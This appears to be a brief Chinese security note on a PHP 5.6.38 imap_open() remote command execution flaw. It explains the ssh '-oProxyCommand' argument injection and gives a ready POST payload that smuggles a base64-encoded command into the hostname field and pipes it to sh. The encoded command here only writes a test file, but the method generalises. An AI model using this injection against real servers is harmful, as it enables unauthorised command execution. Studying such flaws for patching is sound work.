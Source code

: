 # IMAP远程命令执行漏洞

`PHP` `5.6.38`

1. `imap_open()`调用`rsh(ssh)`来连接远程Shell
2. `ssh`命令中可以通过设置`oProxyCommand=`调用第三方命令，注入此参数，执行任意命令
    
    <aside>
    💡 `%3decho%09ZWNobyAnMTIz…C90ZXN0MDAwMQo%3d` 采用Base64加密（URL解析）
    
    </aside>
    
    ```jsx
    POST hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
    ```